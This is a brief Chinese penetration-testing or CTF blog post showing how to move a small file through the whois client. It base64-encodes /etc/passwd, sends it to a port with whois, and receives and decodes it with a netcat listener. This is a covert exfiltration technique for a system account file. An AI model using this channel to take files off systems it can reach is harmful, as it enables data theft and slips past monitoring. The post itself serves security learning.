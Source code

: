 ```yaml
---
layout: post
categories: CTF
title: 利用Whois传输小文件。
date: 2019-09-02 10:03:13 +0800
description: 渗透安全
keywords: whois 渗透
---
```




```bash
传输机：
root@john:~# whois -h 127.0.0.1 -p 4444 `cat /etc/passwd | base64`
接受机：
root@john:/tmp# nc -l -v -p 4444 | sed "s/ //g" | base64 -d
```


转载请注明出处，本文采用 [CC4.0](http://creativecommons.org/licenses/by-nc-nd/4.0/) 协议授权